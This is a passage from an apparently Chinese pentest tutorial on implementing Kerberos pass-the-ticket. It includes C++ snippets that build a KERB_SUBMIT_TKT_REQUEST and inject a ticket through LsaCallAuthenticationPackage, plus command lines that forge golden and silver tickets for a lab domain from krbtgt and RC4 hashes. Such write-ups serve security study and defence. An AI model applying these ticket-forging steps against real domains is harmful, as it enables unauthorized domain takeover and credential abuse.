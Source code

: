 - MessageType：标识正在发出的请求类型的 KERB_PROTOCOL_MESSAGE_TYPE 值。此成员必须设置为 KerbSubmitTicketMessage。
- Key：用于解密 Kerberos 凭据（KRB_CRED）的加密密钥。
- KerbCredSize：表示 KRB_CRED 数据的大小（以字节为单位），即 KRB_CRED 凭据的长度。
- KerbCredOffset：表示 KRB_CRED 数据在整个消息中的偏移量，即 Kerberos 凭据的起始位置。

`KerbSubmitTicketMessage` 调度例程从 KDC 获取票证并更新票证缓存。需要 SeTcbPrivilege 才能访问另一个登录帐户的票证缓存。

在 `LsaCallAuthenticationPackage()` 函数中使用 `KERB_SUBMIT_TKT_REQUEST` 时，需要扩展 `KERB_SUBMIT_TKT_REQUEST` 结构体的大小，将 `KRB_CRED` 数据追加到 `KERB_SUBMIT_TKT_REQUEST` 结构后面，并将 `KRB_CRED` 数据在整个 `KERB_SUBMIT_TKT_REQUEST` 消息中的偏移量给到 `KerbCredOffset`。

Mimikatz 的 `kerberos::ptt` 通过 `LsaCallAuthenticationPackage` 函数发送 `KERB_SUBMIT_TKT_REQUEST` 消息，将现有的 Kerberos 票据传递（文件或二进制数据）到内存中。

`KerberosPTT()` 函数首先声明了一个 `KERB_SUBMIT_TKT_REQUEST` 结构的指针变量 `pKerbSumbitRequest`。然后扩展了 `KERB_SUBMIT_TKT_REQUEST` 结构的大小，如下所示。

```c++
submitBufferLength = sizeof(KERB_SUBMIT_TKT_REQUEST) + encodedTicketSize;
pKerbSumbitRequest = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitBufferLength);
```

这里 `pKerbSumbitRequest` 在原来 `sizeof(KERB_SUBMIT_TKT_REQUEST)` 大小的基础上增加了 `encodedTicketSize`，以保证后续将票据数据追加到 `pKerbSumbitRequest` 指向的内存中。

然后设置 `pKerbSumbitRequest` 中的成员，必须将 `MessageType` 成员设为 `KerbSubmitTicketMessage`，`KerbCredSize` 设为之前构建好的 `KRB-CRED` 结构数据的大小，`KerbCredOffset` 设置追加的 `KRB-CRED` 数据相对于 `KERB_SUBMIT_TKT_REQUEST` 结构起始位置的偏移量，并通过 `RtlCopyMemory` 将票据数据追加到 `pKerbSumbitRequest` 扩展出来的内存中，如下所示。

```c++
pKerbSumbitRequest->MessageType = KerbSubmitTicketMessage;
pKerbSumbitRequest->KerbCredSize = encodedTicketSize;
pKerbSumbitRequest->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
RtlCopyMemory((PBYTE)pKerbSumbitRequest + pKerbSumbitRequest->KerbCredOffset, encodedTicket, encodedTicketSize);
```

最后，通过调用 `LsaCallKerberosPackage()` 函数发送 `KerbSubmitTicketMessage` 消息请求，将该票据提交到当前会话缓存中，完成票据传递过程。

```c++
status = NT_SUCCESS(LsaCallAuthenticationPackage(hLSA, AuthenticationPackage, pKerbSumbitRequest, submitBufferLength, &pKerbSumbitResponse, &returnBufferLength, &packageStatus));
```

# Let’s see it in action

执行以下命令，伪造一个黄金票据。如下图所示，伪造票据后，成功通过 PsExec 获取目标服务器权限。

```Console
GoldenTicket.exe /user:Administrator /domain:pentest.com /sid:S-1-5-21-1536491439-3234161155-253608391 /krbtgt:6b88c9ed6723e3de59eb76f5b73f6a69 /ptt
```

![](https://wh0amitz.oss-cn-beijing.aliyuncs.com/img/image-20230709124648178.png)

执行以下命令，伪造一个目标服务器上 LDAP 服务的白银票据，并传递到内存中，如下图所示。

```Console
GoldenTicket.exe /domain:pentest.com /sid:S-1-5-21-1536491439-3234161155-253608391 /target:dc01.pentest.com /rc4:8236c3452e65add7b5756945975fd883 /service:ldap /user:Administrastor /ptt
```

![](https://wh0amitz.oss-cn-beijing.aliyuncs.com/img/image-20230709124831285.png)